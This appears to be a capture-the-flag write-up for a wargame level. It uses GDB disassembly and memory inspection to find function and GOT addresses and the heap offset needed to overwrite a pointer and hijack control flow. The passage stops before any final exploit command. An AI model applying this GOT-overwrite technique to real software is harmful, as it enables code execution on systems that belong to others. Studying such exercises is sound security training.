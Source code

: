 ## Exploitation Steps

1. Find the address of function `m`:

   ```
   (gdb) disas m
   Dump of assembler code for function m:
      0x080484f4 <+0>:     push   %ebp
      ...
   ```

   The address of `m` is `0x080484f4`

2. Find the GOT entry for `puts`:

   ```
   (gdb) disas puts
   Dump of assembler code for function puts@plt:
      0x08048400 <+0>:     jmp    *0x8049928
      ...
   ```

   The GOT entry for `puts` is at `0x8049928`. Check level6 for more details about the jump instruction.

3. Determine the offset needed to overwrite `second_struct[1]` with the first overflow:

   - We need to find the distance from the buffer pointed to by first_struct[1] (where argv[1] is written) to the memory location of second_struct[1]
   - Using GDB, we can find the address of both locations:

   ```
   (gdb) disas main
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt> # first_struct malloc
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   ...
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt> # temp_ptr for first_struct[1]
   0x08048550 <+47>:    mov    %eax,%edx
   ...
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt> # second_struct malloc
   0x08048565 <+68>:    mov    %eax,0x18(%esp)

   ```

   - Set breakpoints after the malloc calls to examine memory addresses:

   ```
   (gdb) break *0x08048550   # After temp_ptr for first_struct[1] gets assigned
   (gdb) break *0x08048585   # After second_struct[1] gets assigned
   (gdb) run test1 test2

   Breakpoint 1, 0x08048550 in main ()
   (gdb) x $eax                  # Value of temp_ptr for first_struct[1]
   0x804a018:      0x00000000    # This is where argv[1] will be copied

   (gdb) continue
   Breakpoint 2, 0x08048585 in main ()
   (gdb) x $eax             # Examine second_struct
   0x804a028:      0x00000002
   (gdb) x &0x804a028[1]    # Address of second_struct[1]
   0x804a02c:      0x0804a038    # This is what we want to overwrite
   ```
